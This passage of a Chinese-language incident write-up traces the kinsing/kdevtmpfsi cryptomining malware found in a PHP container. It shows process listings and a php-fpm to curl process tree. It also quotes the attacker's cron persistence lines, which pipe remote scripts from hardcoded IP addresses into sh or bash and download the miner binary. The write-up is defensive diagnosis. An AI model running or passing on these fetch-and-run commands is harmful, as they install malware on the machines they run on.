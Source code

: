 POST 方法中的 x-www-form-urlencoded 和 raw 格式 Body 体会写入到 `php://input` 流中，与之前发现的规律相吻合。

# 发现挖矿恶意程序

在查找 php:input 数据流问题时，偶然发现容器中运行着两个异常进程，名称分别是 `kinsing` 和 `kdevtmpfsi`

```
root@b3f806f09ccd:~# ps -aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   3992  1152 ?        Ss+  Jan29   0:00 /bin/bash
root     10085  0.0  0.0   7632  1344 ?        R+   19:54   0:00 ps -aux
www-data 15438  0.0  0.1 718988 16148 ?        Sl   Aug04   0:40 /tmp/kinsing
www-data 15605  199 29.3 2930476 2397156 ?     Ssl  Aug04 11245:50 /tmp/kdevtmpfsi
```

这两个进程从 8 月 4 日晚启动，与第一次错误日志出现的时间有关联。

搜索后得知，这两个程序是挖矿恶意程序。使用 `kill -9` 强制杀掉后，再次测试 API，能够正常返回数据。

至此可以确认一切的根源就是该挖矿恶意程序导致的。

# 无法完全禁止挖矿恶意程序启动

使用 `kill -9` 命令强制杀死挖矿进程后，发现其会在几分钟内自行重启

查看 supervisor 服务，发现没有类似的配置。再查看 `cron` 服务，发现了异常计划任务。 `* * * * * curl http://195.3.146.118/unk.sh | sh > /dev/null 2>&1`

删除该计划任务，几分钟后又出现了类似的计划任务。 `* * * * * curl http://195.3.146.118/ph.sh | bash > /dev/null 2>&1`

再一次删除计划任务，修改了恶意程序名称后，发现恶意程序被重新下载执行

下载过程中的进程列表如下：

```
root@b3f806f09ccd# ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   3992  1152 ?        Ss+  Jan29   0:00 /bin/bash
root        11  0.0  0.0   5504   880 ?        Ss   Jan29   1:18 /usr/sbin/cron
root     10749  0.0  0.1  80588 14492 ?        S    20:17   0:00 php-fpm: master process (/usr/local/etc/php-fpm.conf)
www-data 10750  0.0  0.1  86932 15836 ?        S    20:17   0:00 php-fpm: pool www
www-data 10751  0.0  0.2  88984 17796 ?        S    20:17   0:00 php-fpm: pool www
www-data 11671  0.0  0.0   2380   652 ?        S    20:57   0:00 sh -c [ -f "/bin/bash" ] && (curl -s http://194.38.20.199/ph.sh||wget -q -
www-data 11673  0.0  0.0   3992  1880 ?        S    20:57   0:00 bash
www-data 11765  0.1  0.0  23096  4832 ?        S    20:57   0:00 curl -o /tmp/kinsing http://194.38.20.199/kinsing
root     11785  0.0  0.0   7632  1412 ?        R+   20:59   0:00 ps aux
```

通过进程列表可以得到 `curl` 命令执行的完整进程树

```
- [0]
  - [10749] php-fpm: master
    - [10750] php-fpm: pool
      - [11671] sh
        - [11673] bash
          - [11765] curl
```
